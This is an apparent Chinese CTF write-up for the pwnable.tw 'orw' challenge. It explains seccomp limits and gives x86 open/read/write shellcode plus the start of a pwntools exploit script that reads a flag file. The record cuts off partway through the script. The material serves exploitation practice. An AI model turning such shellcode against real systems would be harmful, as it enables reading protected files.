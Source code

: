 ![image-20220407161713082](pwnabletw.assets/image-20220407161713082.png)

这里用到沙盒seccomp，详情[参考](https://blog.51cto.com/u_15127593/3259635)

> 安全计算模式 seccomp（Secure Computing Mode）是自 Linux 2.6.10 之后引入到 kernel 的特性。一切都在内核中完成，不需要额外的上下文切换，所以不会造成性能问题。目前 在 Docker 和 Chrome 中广泛使用。使用 seccomp，可以定义系统调用白名单和黑名单，可以 定义出现非法系统调用时候的动作，比如结束进程或者使进程调用失败。
>
> seccomp机制用于限制应用程序可以使用的系统调用，增加系统的安全性。
>

用seccomp-tools查看限能使用的系统调用：open, read, write，将这三个函数开头字母作为简称，也就是题名orw，orw题型总结可[参考](https://x1ng.top/2021/10/28/pwn-orw%E6%80%BB%E7%BB%93/)

![image-20220407165217608](pwnabletw.assets/image-20220407165217608.png)

常用shellcode为

```c
#fd = open('/home/orw/flag',0) 
s = ''' xor edx,edx; mov ecx,0; mov ebx,0x804a094; mov eax,5; int 0x80; '''

#read(fd,0x804a094,0x20) 
s = ''' mov edx,0x40; mov ecx,ebx; mov ebx,eax; mov eax,3; int 0x80; '''

#write(1,0x804a094,0x20) 
s = ''' mov edx,0x40; mov ebx,1; mov eax,4 int 0x80; '''
```

exp：

```python
#!/usr/bin/python
from pwn import *
context.log_level = 'debug'
context.binary='./orw'
io = process('orw')
#io = remote('chall.pwnable.tw', 10001)
shellcode = '''
push 0x00006761
push 0x6c662f77
push 0x726f2f65
push 0x6d6f682f		// /home/orw/flag\x00
mov eax,0x5
mov ebx,esp
xor ecx,ecx
int 0x80
```